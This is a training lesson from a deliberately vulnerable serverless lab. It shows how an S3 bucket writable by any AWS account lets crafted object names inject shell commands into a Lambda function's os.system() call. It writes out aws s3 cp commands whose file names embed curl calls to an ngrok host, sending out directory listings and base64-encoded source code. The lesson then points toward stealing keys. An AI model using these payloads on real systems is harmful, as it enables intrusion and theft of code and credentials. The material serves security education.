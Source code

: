 
## LESSION #4: Insecure Cloud Configuration

The DVSA is using cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipts is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-sdk, you can simply run the command: ```aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}```

![alt s3-upload](https://i.imgur.com/K3sE1pf.png)

*Note, that you won't be able to run ```ls``` with an account different thatn the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receript-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. 2018/12/24/{receipt-uuid}.txt.

2. So let's fake a receipt and see what happens. Using the aws-sdk we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?data="$(ls)" echo x.raw' --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

![alt ls](https://i.imgur.com/h9mw2qV.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: ```echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py```
![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/lesson_06.md) or executing any other command.





